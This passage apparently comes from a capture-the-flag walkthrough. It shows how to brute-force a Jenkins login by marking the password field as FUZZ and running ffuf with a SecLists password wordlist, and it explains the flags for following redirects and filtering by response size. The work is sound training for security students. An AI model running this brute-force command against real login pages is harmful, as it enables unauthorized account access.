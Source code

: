 

**Replace the password with `FUZZ`**

![](/assets/img/internal/15.png)

<br /><br />

**Bruteforce the password with ffuf**

```bash
root@ip-10-10-228-42:~/Desktop# ffuf -request jenkins_req -request-proto http -w /usr/share/wordlists/SecLists/Passwords/xato-net-10-million-passwords-10000.txt -r  -fs 901,0
```

-r to follow redirection.

-fs to filter HTTP response size.

![](/assets/img/internal/15.2.png)
